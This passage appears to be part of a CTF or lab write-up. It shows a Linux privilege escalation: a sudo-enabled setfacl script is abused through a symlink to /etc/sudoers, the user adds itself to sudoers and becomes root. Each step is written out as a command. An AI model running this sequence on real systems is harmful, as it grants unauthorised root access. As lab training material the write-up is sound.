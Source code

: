```bash
sudo -l
```
![[Pasted image 20241017122134.png]]

User mtz can run /opt/acl.sh that utilises `setfacl` as SUDO to change file permissions on all files for any user within /home/mtz folder. This can be exploited to create a symlink to a target file of choice and assign RWX permissions to `mtz` which will allow us to modify the contents of the file

- Create a SYMLINK to `/etc/sudoers`
```bash
ln -s /etc/sudoers /home/mtz/xsc
```
- Give permissions
```bash
sudo /opt/acl.sh mtz rwx xsc
```
- Edit the file
```bash
nano xsc
```
```
mtz (ALL:ALL) ALL
```
- Switch to root
```bash
sudo su
```
Enter password and we are root!